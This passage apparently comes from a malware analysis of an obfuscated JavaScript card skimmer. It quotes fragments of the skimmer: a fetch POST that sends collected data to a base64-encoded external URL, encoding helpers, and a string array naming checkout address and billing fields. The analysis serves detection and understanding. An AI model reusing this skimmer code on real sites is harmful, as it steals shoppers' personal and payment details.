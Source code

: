 It uses fetch:

```

"_0x48fd7e[_0x4dcc4c(0x124)](xfkwf['vnskp_param'],_0x1cdb15),fetch(xfkwf[_0x4dcc4c(0x116)](xfkwf[_0x4dcc4c(0x10b)])+'?'+Math[_0x4dcc4c(0xdb)](),{'method':_0x4dcc4c(0xd7),
'body':_0x48fd7e});"

```

It uses atob:

```

},xfkwf[_0x4d5ab1(0x116)]=function(_0x1fdc44){
    var_0x47fb3d=_0x4d5ab1,_0x53193b=atob(_0x1fdc44),_0x4bd8d1='';

```

It uses btoa:

```

return btoa(encodeURIComponent(_0x59e75c)[_0x3510bf(0x107)]
(/%([0-9A-F]{2})/g,function(_0x5c6ecd,_0x36bb0a){
    var _0xaebe5=_0x3510bf;

```

As you can see the main purpose of obfuscated file is to make it unreadable for users. But some lines could give us a clue of what is happening here.

For example this line:

```

function _0x4720(){var _0x3ddb09=['vnskp_type','34472647ZfYNqD','yxkxl','toString','innerText','rkrhv','phone','wwtlq','45XOedQO','lqbjn','length','default_billing','selectedOptions','parse','region','34ctScIO','mepgq','forEach','Holder','vnskp','scnhm','16ZjpFvE','object','bmmuw','blfoi','country','3986424sIJGeN','value','city','JSON','570264RcISWA','qwyjy','replace','101221cMBWHB','slice','firstname','liluj','country_id','13699150SOIvNk','awcsb','4994892xjGFUw','getElementsByTagName','Domain','IMG','fromCharCode','addresses','yqgnj','wsmlv','undefined','12246bODdzt','setInterval','wyhyj','select','ycsnm','12gmYQLy','createElement','stringify','state','textarea','input','querySelector','append','indexOf','lytgk','zip','lastname','push','localStorage','zytth','vnskp_param','POST','vqmub','sfofx','hasAttribute','random','getItem','setItem','trim','nsvus','janyb','836bnvckL','street','postcode','attributes','src','aHR0cHM6Ly9jZG4tcmVwb3J0LmNvbS9zdGF0dXMv'];

```

## File 3: (clean file example)

Comments:
Like with the other files we can also break it down and look
for possibly clues.

For example these lines could be of great help:
